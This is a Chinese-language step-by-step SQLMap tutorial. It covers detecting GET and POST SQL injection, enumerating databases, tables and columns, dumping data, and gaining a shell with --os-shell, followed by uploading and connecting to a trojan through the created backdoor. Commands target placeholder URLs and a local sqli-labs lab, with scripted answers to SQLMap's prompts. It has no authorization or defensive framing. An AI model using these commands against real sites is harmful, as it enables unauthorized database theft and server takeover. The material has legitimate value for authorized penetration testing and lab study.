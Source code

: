# SQLMap 使用

# SQLMap 使用

## GET型注入

### 1、判断是否存在注入

假设目标注入点是 `http://xxxxxxx?id=1`，判断其是否存在注入的命令如下：

```
sqlmap.py -u http://xxxxxxx?id=1
```

当注入点后面的参数大于等于两个时,需要加双引号，如下所示。

```
sqlmap.py -u "http://xxxxxxx?id=1&uid=2"
```

​	

### 2、爆出服务器的所有数据库名

```
sqlmap.py -u "http://xxxxxxx?id=1" --dbs
```

​	

### 3、爆出当前网站的数据库名

```
sqlmap.py -u "http://xxxxxxx?id=1" --current-db
```

​	

### 4、爆出表名

```
sqlmap.py -u "http://xxxxxxx?id=1" -D 库名 --tables
```

​	

### 5、爆出字段名(列名)

```
sqlmap.py -u "http://xxxxxxx?id=1" -D 库名 -T 表名 --columns
```

​	

### 6、爆出数据

```
sqlmap.py -u "http://xxxxxxx?id=1" -D 库名 -T 表名 -C 字段1,字段2 --dump
```

​	

​	

## POST型注入

### 注入方式一：BurpSuite抓包

**BurpSuite抓请求包、复制内容保存到txt文件**

### 1、判断是否存在注入

```
sqlmap.py -r D:\1.txt
```

​	

### 2、爆出服务器的所有数据库名

```
sqlmap.py -r D:\1.txt --dbs
```

- **it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]**
  它看起来像后端DBMS是'MySQL'。 是否要跳过特定于其他DBMS的测试负载？ [Y/n] 
  输入"Y"
- **for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]**
  对于剩余的测试，您想要包括所有针对“MySQL”扩展提供的级别（1）和风险（1）值的测试吗？ [Y/n] 
  输入"N"
- **POST parameter 'n' is vulnerable. Do you want to keep testing the others (if any)? [y/N]**
  POST参数'n'是脆弱的。 你想继续测试其他人（如果有的话）吗？[y/N] 
  输入"Y"

​	

### 3、爆出当前网站的数据库名

```
sqlmap.py -r D:\1.txt --current-db
```

​	

### 4、爆出表名

```
sqlmap.py -r D:\1.txt -D 库名 --tables
```

​	

### 5、爆出字段名(列名)

```
sqlmap.py -r D:\1.txt -D 库名 -T 表名 --columns
```

​	

### 6、爆出数据

```
sqlmap.py -r D:\1.txt -D 库名 -T 表名 -C 字段1,字段2 --dump
```

​	

> POST型注入也可以用 `-p` 来指定某个参数

​		

### 注入方式二：自动搜索表单

```
sqlmap.py -u http://127.0.0.1/sqli-labs-master/Less-11/ --forms --level=5 --dbs
```

- do you want to test this form? [Y/n/q]
  要测试此表单吗?[Y/n/q] 
  输入"Y"
- do you want to fill blank fields with random values? [Y/n]
  是否要填充带有随机值的空白字段? [Y/n] 
  输入"Y"
- it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
  它看起来像后端DBMS是'MySQL'。 是否要跳过特定于其他DBMS的测试负载？ [Y/n] 
  输入"Y"
- for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]
  对于剩余的测试，您想要包括所有针对“MySQL”扩展提供的级别（1）和风险（1）值的测试吗？[Y/n] 
  输入"N"
- POST parameter 'n' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
  POST参数'n'是脆弱的。 你想继续测试其他人（如果有的话）吗？[y/N] 
  输入"N"
- do you want to exploit this SQL injection? [Y/n]
  你想利用[SQL注入](https://so.csdn.net/so/search?q=SQL注入&spm=1001.2101.3001.7020)？ 
  输入"Y"

​	

​	

# SQLMap getshell

## 前提

- 网站必须是root权限
- 知道网站的绝对路径
- PHP关闭魔术引号，php主动转义功能关闭
- secure_file_priv=值为空

​	

​	

## 1、SQLMap跑包

```
sqlmap.py -r D:\1.txt -dbms=mysql --os-shell
```

- -r :从文件中获取HTTP请求。
- -dbms=mysql：指定跑mysql数据库。
- --os-shell：本质就是写入两个php文件。

​	

## 2、选择网站语言

## 3、选择网站的的绝对路径

## 4、访问后门链接，上传木马，连接木马


